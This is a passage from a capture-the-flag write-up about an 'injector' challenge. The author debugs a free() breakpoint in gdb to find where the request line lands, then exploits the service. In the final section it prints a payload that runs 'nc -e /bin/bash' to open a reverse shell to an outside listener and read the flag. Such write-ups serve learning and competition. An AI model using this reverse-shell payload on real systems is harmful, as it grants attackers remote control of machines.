 Got it! Let's validate where `rdi` points to. The breakpoint is hit several times here since `free()` is called often :)

```console
(gdb) b *0x7f0cd6ac7f37
Breakpoint 1 at 0x7f0cd6ac7f37
(gdb) c
Continuing.
[...]
```

And in another console:

```console
nc localhost 4321
GET /
```

This leads us to this interrupt:

```console
Breakpoint 1, 0x00007f0cd6ac7f37 in ?? ()
(gdb) x /s $rdi
0x562ca84b1d20:	"GET /\n"
```

# exploitation

We now know that this corresponds to the line of our request, starting where the HTTP verb should be. Next, trying the exploit on the VM and on the real target:

```console
$ nc injector.challenges.adversary.zone 4321
cmd{nc -e /bin/bash ctfbox 4444}
cat flag.txt
[...]
```

Really enjoyed this one from a scenario point of view, well made!